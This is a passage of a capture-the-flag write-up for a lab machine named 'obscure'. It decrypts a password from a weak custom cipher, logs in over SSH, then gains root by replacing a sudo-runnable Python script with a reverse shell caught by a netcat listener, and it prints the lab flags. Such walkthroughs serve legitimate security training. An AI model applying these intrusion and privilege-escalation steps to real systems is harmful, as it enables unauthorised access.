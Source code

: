 To do that with the CLI interface we provide `out.txt` as the input and
`check.txt` as the key so the resulting "encrypted" file gives us in fact the
clear text key `alexandrovich`.

Doing the same with the encrypted password and the real key we can find the
clear text of the password.

```
$ python SuperSecureCrypt.py -i out.txt -o out2.txt -k "$(cat check.txt)" -d
$ python SuperSecureCrypt.py -i passwordreminder.txt -o out2.txt -k "alexandrovich" -d
```

Robert password is `SecThruObsFTW`.

So now we can connect to ssh as robert.

```
$ ssh -v robert@10.10.10.168
...
robert@obscure:~$ cat user.txt
e4493782066b55fe2755708736ada2d7
```

### System Privilege Escalation : robert to root

**TL;DR**: `BetterSSH.py` command execution

It seems we can run a python script as root.

```
robert@obscure:~$ sudo -l
Matching Defaults entries for robert on obscure:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User robert may run the following commands on obscure:
    (ALL) NOPASSWD: /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py
```

[Source code of `BetterSSH.py`](https://gist.github.com/noraj/b4b153ac914ba4cd187f105719371d8f#file-betterssh-py)

We can replace the script executed as root by a python reverse shell and execute it.

`robert@obscure:~$ sudo /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py`

```
➜ nc -nlp 8888
root@obscure:~# id
id
uid=0(root) gid=0(root) groups=0(root)
root@obscure:~# cd /root
cd /root
root@obscure:/root# ls
ls
root.txt
root@obscure:/root# cat root.txt
cat root.txt
512fd4429f33a113a44d5acde23609e3
```
